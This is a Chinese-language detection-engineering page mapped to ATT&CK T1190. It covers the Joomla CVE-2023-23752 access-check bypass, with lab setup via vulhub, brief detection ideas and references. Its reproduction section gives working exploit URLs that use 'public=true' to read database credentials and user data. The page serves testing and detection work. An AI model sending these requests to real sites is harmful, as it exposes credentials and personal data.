




# T1190-CVE-2023-23752-Joomla权限绕过漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

在其4.0.0版本到4.2.7版本中，存在一处属性覆盖漏洞，导致攻击者可以通过恶意请求绕过权限检查，访问任意Rest API。

参考链接：

- <https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html>
- <https://xz.aliyun.com/t/12175>
- <https://vulncheck.com/blog/joomla-for-rce>

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

漏洞环境参考vulhub进行部署模拟

执行如下命令启动一个Joomla 4.2.7：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到Joomla页面。

### 漏洞复现

这个漏洞是由于错误的属性覆盖导致的，攻击者可以通过在访问Rest API时传入参数`public=true`来绕过权限校验。

比如，访问下面这个链接即可读取所有配置项，包括数据库连接用户名和密码：

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```



如果不添加`public=true`，则访问会被拒绝。

访问下面这个链接即可读取所有用户信息，包含邮箱等：

```
http://your-ip:8080/api/index.php/v1/users?public=true
```



## 测试留痕





流量包见同目录下pcap文件。

## 检测规则/思路

对请求路径及返回内容进行重点关注，研判分析时要根据url路径内容，结合返回信息+状态码进行研判。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Joomla权限绕过漏洞（CVE-2023-23752）

<https://github.com/vulhub/vulhub/blob/6e9b1c1acd60529384a5751ea9de4dae595259c6/joomla/CVE-2023-23752/README.zh-cn.md?plain=1>

Joomla未授权访问漏洞|CVE-2023-23752复现及修复

<https://www.cnblogs.com/xiaoyunxiaogang/p/17219281.html>
